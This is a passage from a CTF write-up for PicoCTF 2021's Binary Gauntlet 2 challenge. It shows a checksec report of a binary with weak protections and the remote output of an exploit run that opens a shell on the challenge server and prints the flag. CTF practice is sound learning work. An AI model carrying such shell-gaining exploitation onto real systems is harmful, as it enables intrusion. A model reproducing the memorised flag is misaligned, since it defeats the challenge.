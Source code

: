 ```python

run.interactive()
```
### Remote output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-2/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 4349: Done
[*] Switching to interactive mode
$ cat flag.txt
bcf25d0f5d43dc2d9a40016f9d261819
$
```